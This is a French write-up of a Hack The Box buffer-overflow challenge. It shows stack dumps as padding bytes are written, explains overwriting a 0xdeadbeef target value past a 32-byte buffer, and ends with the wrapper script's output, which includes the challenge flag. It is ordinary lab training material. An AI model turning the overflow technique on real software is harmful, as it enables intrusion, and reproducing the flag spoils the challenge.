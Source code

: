 # Fichiers fournis par le challenge

* wrapper.py : script python pour bof, modifier les valeurs requires (IP, Port, nombre de A's) et installer pwntools (pip3 install pwntools) 
* flag.txt : Exemple de flag invalide
* gs (ghostscript) : binary instrumenting tool
* ld-linux-x86-64.so.-2 : dynamic linker/loader for Linux systems
* libc.so.6 : shareled library 

# Solution 

Après quelques recherches j'ai exécuté : 

LD_PRELOAD=./libc.so.6 ./ld-linux-x86-64.so.-2 ./GS

et ma donner le output suivant : 

|      .      | <- Higher addresses
|      .      |
|_____________|
|             | <- 64 bytes
| Return addr |
|_____________|
|             | <- 56 bytes
|     RBP     |
|_____________|
|             | <- 48 bytes
|   target    |
|_____________|
|             | <- 40 bytes
|  alignment  |
|_____________|
|             | <- 32 bytes
|  Buffer[31] |
|_____________|
|      .      |
|      .      |
|_____________|
|             |
|  Buffer[0]  |
|_____________| <- Lower addresses


      [Addr]       |      [Value]       
-------------------+-------------------
0x00007ffe8f64a100 | 0x0000000000000000 <- Start of buffer
0x00007ffe8f64a108 | 0x0000000000000000
0x00007ffe8f64a110 | 0x0000000000000000
0x00007ffe8f64a118 | 0x0000000000000000
0x00007ffe8f64a120 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffe8f64a128 | 0x00000000deadbeef <- Target to change
0x00007ffe8f64a130 | 0x00007f53e9739800 <- Saved rbp
0x00007ffe8f64a138 | 0x00007f53e9021c87 <- Saved return address
0x00007ffe8f64a140 | 0x0000000000008000
0x00007ffe8f64a148 | 0x00007ffe8f64a210


After we insert 4 "A"s, (the hex representation of A is 0x41), the stack layout like this:


      [Addr]       |      [Value]       
-------------------+-------------------
0x00007ffe8f64a100 | 0x0000000041414141 <- Start of buffer
0x00007ffe8f64a108 | 0x0000000000000000
0x00007ffe8f64a110 | 0x0000000000000000
0x00007ffe8f64a118 | 0x0000000000000000
0x00007ffe8f64a120 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffe8f64a128 | 0x00000000deadbeef <- Target to change
0x00007ffe8f64a130 | 0x00007f53e9739800 <- Saved rbp
0x00007ffe8f64a138 | 0x00007f53e9021c87 <- Saved return address
0x00007ffe8f64a140 | 0x0000000000008000
0x00007ffe8f64a148 | 0x00007ffe8f64a210


After we insert 4 "B"s, (the hex representation of B is 0x42), the stack layout looks like this:


      [Addr]       |      [Value]       
-------------------+-------------------
0x00007ffe8f64a100 | 0x4242424241414141 <- Start of buffer
0x00007ffe8f64a108 | 0x0000000000000000
0x00007ffe8f64a110 | 0x0000000000000000
0x00007ffe8f64a118 | 0x0000000000000000
0x00007ffe8f64a120 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffe8f64a128 | 0x00000000deadbeef <- Target to change
0x00007ffe8f64a130 | 0x00007f53e9739800 <- Saved rbp
0x00007ffe8f64a138 | 0x00007f53e9021c87 <- Saved return address
0x00007ffe8f64a140 | 0x0000000000008000
0x00007ffe8f64a148 | 0x00007ffe8f64a210

◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉
◉                                                                                                 ◉
◉  Fill the 32-byte buffer, overwrite the alginment address and the "target's" 0xdeadbeef value.  ◉
◉                                                                                                 ◉
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉



___________________________________________________________________________________________________________________________________________________

J'ai vérifier le nombre de bytes a inséré pour le bof, j'ai commencer par 39 suivi de 40 et a fini par recevoir ce output par le script wrapper.py : 

python3 ./wrapper.py 
[+] Opening connection to 209.97.134.50 on port 30135: Done
[+] Flag --> HTB{b0f_s33m5_3z_r1ght?}
[*] Closed connection to 209.97.134.50 port 30135

